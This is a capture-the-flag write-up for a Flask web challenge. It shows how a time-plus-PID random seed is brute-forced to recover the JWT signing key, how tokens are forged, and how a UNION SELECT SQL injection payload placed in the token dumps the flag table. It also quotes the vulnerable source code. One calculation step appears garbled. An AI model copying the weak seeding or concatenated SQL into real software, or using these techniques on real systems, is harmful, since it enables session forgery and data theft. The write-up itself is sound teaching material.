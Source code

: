 # Chall Description 

You’ve been informed that a website might be serving as a front for a large criminal network. Part of their revenue supposedly comes from selling cookies that can make you float like an airship… A rather tempting proposition. Their slogan, it seems, is: "Always wondered how to get the coolest and the highest quality products in your region ? Search no more, this new website allows you to do so !"

Attachment : app.py

# Steps

Reading the source code we can find interessing parts :

```python
# I saw in the official _randommodule.c in which both time and pid are used to seed the random generator
# So that must be a good idea, right ? :) Just gonna do it simpler here, but should be as safe.

up = math.floor(time.time())
random.seed(up + os.getpid())
```
```python
app = Flask(__name__)
app.config['SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:////app/data/site.db'
app.config['JWT_SECRET_KEY'] = "".join(random.choice(string.printable) for _ in range(32))
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False 
```

The random is seed on the time where the server is start and the PID wich is very weak since we have access on the time using `/healthz` wich allow us to know since when the server has been started :

```json
{"status":"OK","uptime":355601.6438162327}
```

Knowing this and the facts that the price are generate based on the same random, we can bruteforce it :

First we calcul the timestamp of server start : `now - uptime = 4194304`

and we bruteforce the PID : 

```python
for pid in range(4194304):  
    random.seed(baseTimestamp + pid)  
    useless = "".join(random.choice(string.printable) for _ in range(32))  
    KEY = "".join(random.choice(string.printable) for _ in range(32))  
    a = random.randrange(10, 100)  
    b = random.randrange(10, 100)  
    c = random.randrange(10, 100)  
    if a == 43 and b == 58 and c == 40:
        print(baseTimestamp, pid)  
        print(KEY)  
        print(str(base64.b64encode(bytes(KEY, "utf-8"))))  
```

With the key we can craft ours own JW Tokens. Now looking in the code we see that their is a input vulnerable to a SQLi and using the JWT as input (since favorite product is stored in there):

```python
favorite_product = db.session.execute(text("SELECT * FROM product WHERE id = " + str(favorite_product_id))).fetchone()
```

We insert this query in our JWT :

```SQL
42 UNION SELECT flag, flag, flag, flag, flag, flag FROM flag
```

And going to `/favorite_product_info` we get our flag : `HACKDAY{Th4t_s_S0m3_g000000000000d_qu4lity!}`






